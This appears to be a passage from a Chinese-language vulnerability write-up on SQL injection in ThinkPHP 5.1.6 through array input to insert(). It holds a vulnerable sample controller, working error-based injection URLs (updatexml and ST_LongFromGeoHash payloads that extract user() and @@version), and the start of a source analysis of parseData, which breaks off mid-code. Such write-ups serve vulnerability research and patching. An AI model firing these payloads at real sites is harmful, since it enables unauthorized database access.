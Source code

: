 ```php
        // TODO 其他安全过滤
    }
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202204071917159.png)

>不使用`concat(0x7e,(select user()),0x7e)`的原因

会报错`SQLSTATE[HY000]: General error: 1105 Only constant XPATH queries are supported`

可以用其他报错方式来带出数据,取决于数据库版本

`index.php?username[0]=inc&username[1]=ST_LongFromGeoHash((select*from(select*from(select @@version)x)y))&username[2]=1`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202204072029966.png)

# parseArrayData导致sql注入(point)

>测试版本为5.1.6

## 漏洞复现

```php
<?php
namespace app\index\controller;
use think\Db;

class Index
{
    public function index()
    {
        $username = input('get.username/a');
        Db::table("users")->where(["id"=>1])->insert(["username"=>$username]);
    }
}
```

`index.php?username[0]=point&username[1]=a&username[2]='b' and updatexml(1,concat(0x7e,user(),0x7e),1))--+`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202204092348625.png)

## 漏洞分析

主要是`parseData`的处理方式跟前面的`5.0.14`版本不一样

```php
#thinkphp/library/think/db/Builder.php
    /**
     * 数据分析
     * @access protected
     * @param  Query     $query     查询对象
     * @param  array     $data      数据
     * @param  array     $fields    字段信息
     * @param  array     $bind      参数绑定
     * @param  string    $suffix    参数绑定后缀
     * @return array
     */
    protected function parseData(Query $query, $data = [], $fields = [], $bind = [], $suffix = '')
    {
        ...

        $result = [];

```